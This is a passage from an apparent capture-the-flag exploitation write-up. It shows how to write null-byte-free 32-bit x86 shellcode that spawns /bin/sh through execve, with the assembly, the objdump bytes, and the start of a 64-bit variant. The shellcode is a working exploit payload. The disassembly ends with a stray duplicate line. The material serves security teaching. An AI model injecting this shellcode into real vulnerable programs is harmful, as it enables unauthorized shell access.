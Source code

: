 ```
```

Now the only remaining null-byte is that used to define our string, but we have
plenty of zeroed register we can borrow from:

```
global _start
_start:

    ; build syscall:
    ; you can find tables for syscall codes online
    xor eax, eax    ; zero eax
    ; push our string onto the stack
    push eax        ; <----- using zeroed eax as null byte
    push 0x68732f2f ; "//sh"
    push 0x6e69622f ; "/bin"

    mov al, 0xb     ; execve(
    mov ebx, esp    ; "/bin/sh",
    xor ecx, ecx    ; NULL,
    xor edx, edx    ; NULL)
    int 0x80        ; make the syscall
```

And we've cleared out all the null-bytes:

```
$ objdump -dM intel shell32

./shell32_usable_non_null:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c0                	xor    eax,eax
 8049002:	50                   	push   eax
 8049003:	68 2f 2f 73 68       	push   0x68732f2f
 8049008:	68 2f 62 69 6e       	push   0x6e69622f
 804900d:	b0 0b                	mov    al,0xb
 804900f:	89 e3                	mov    ebx,esp
 8049011:	31 c9                	xor    ecx,ecx
 8049013:	31 d2                	xor    edx,edx
 8049015:	cd 80                	int    0x80
804901d:	cd 80                	int    $0x80
```

## Extra: 64bit Shellcode

The challenge provided a vulenrable 32bit binary, but let's see how different
things would be if it were a 64 bit binary. First thing's first, let's write
the assembly for our payload. The biggest difference is that if we tried to
push words like we did before onto the stack there would be extra zero-padding,
resulting in null-bytes in our string. There are also different codes for
system calls:
